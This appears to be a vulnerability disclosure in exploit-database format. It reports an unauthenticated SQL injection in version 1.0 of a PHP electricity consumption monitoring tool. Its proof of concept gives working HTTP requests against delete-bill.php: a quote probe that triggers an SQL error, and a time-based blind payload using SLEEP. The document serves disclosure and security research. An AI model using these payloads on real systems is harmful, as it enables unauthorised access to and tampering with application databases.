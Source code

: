 # Electricity Consumption Monitoring Tool - Unauthenticated SQL Injection
+ *Exploit Title:* Electricity Consumption Monitoring Tool  - Unauthenticated SQL Injection
+ *Date:* 2024-04-24
+ *Exploit Author:* Asif Nawaz Minhas
+ *Vendor Homepage:* https://www.sourcecodester.com/php/17328/electricity-consumption-monitoring-tool-using-php-and-mysql-source-code.html
+ *Software Link:* https://download.code-projects.org/details/97b61777-5089-4b4f-841f-10e10be5859e
+ *Version:* 1.0
+ *Tested on:* Kali Linux + PHP 8.2.12, Apache 2.4.58
+ *CVE:* Reported, waiting for CVE number

## Description:
Electricity Consumption Monitoring Tool is vulnerable to a unauthenticated SQL injection vulnerability.  
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to http://localhost/electricity-comsumption-monitoring/
+ Click X to delete a bill
+ In your history you will see a bill id with the = parameter
+ Send this request again but modify it like this:
+ GET /electricity-comsumption-monitoring/endpoint/delete-bill.php?bill=6' HTTP/1.1
+ The response shows now:


Error: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; 
check the manual that corresponds to your MariaDB server version for the right syntax to use near ''6''' at line 1

Modify the payload now like this:

GET /electricity-comsumption-monitoring/endpoint/delete-bill.php?bill=%27%20AND%20(SELECT%207764%20FROM%20(SELECT(SLEEP(7)))BFNj)--%20SoMo HTTP/1.1

You will see a time out of 7 seconds, thus confirming the unauthenticated SQL injection vulnerability.




 ![XSS_1](https://github.com/ethicalhackerNL/CVEs/blob/fe099baf91dd62213fc46068b0aaafec5114c492/Electricity%20Consumption%20Monitoring%20Tool/unauth%20sqli%20proof.jpg)
